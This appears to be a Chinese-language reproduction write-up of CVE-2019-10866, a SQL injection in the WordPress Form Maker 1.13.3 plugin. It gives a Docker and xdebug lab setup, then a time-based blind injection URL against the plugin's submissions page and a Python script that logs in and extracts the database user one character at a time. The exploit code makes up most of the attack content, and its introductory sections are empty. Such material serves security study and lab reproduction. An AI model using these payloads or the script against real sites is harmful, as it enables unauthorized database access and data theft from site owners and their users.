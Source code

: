 （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

![](resource/(CVE-2019-10866)WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image
